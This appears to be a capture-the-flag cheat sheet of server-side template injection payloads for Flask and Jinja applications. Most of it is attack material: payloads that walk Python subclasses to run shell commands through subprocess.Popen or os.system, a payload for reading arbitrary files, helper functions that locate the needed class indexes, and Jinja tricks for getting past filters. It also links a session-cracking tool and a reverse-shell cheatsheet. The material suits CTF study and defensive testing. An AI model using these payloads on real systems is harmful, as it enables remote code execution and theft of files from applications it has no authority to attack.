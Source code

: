 # Flask

### Server side template injection

[ref](https://github.com/junron/public-writeups/blob/master/whitehacks-2021/waf.md)

List classes: `{{ "".__class__.__base__.__subclasses__() }}`

Get `subprocess.Popopen`:

```python
def get_popopen(string):
	i = string.index("<class 'subprocess.Popen'>")
	s = string[:i]
	return s.count(",")
```

Execute commands: `{{ "".__class__.__base__.__subclasses__()[<n>]([<cmd>], stdout=-1).communicate() }}`

**Alternative: `frozenimportlib`**

Get `_frozen_importlib.BuiltinImporter`:

```python
def get_builtinimporter(string):
	i = string.index("<class '_frozen_importlib.BuiltinImporter'>")
	s = string[:i]
	return s.count(",")
```

Execute commands: `{{ "".__class__.__base__.__subclasses__()[<n>]().load_module("os").system(<cmd>) }}`

### For reading files:

Get `_frozen_importlib_external.FileLoader`:

```python
def get_fileloader(string):
	i = string.index("<class '_frozen_importlib_external.FileLoader'>")
	s = string[:i]
	return s.count(",")
```

`{{ "".__class__.__base__.__subclasses__()[<n>].get_data(0,<file>) }}`

### Jinja

Useful filters and tricks (should be available in default jinja/flask app):

- `dict(string=x)|first == 'string'`: Get strings without using quotes 
- `'galf'|reverse`: Get banned strings
- True = 1, False = 0
- `lipsum[dict(__globals__=x)|first] = globals()`: Can possibly get `os` module from here
- `{*open('flag')}`: Read files without `read`

## Session cracking 

[tool](https://github.com/Paradoxis/Flask-Unsign)

## Reverse shell

[PayloadsAllTheThings/Reverse Shell Cheatsheet.md at master · swisskyrepo/PayloadsAllTheThings (github.com)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md#python)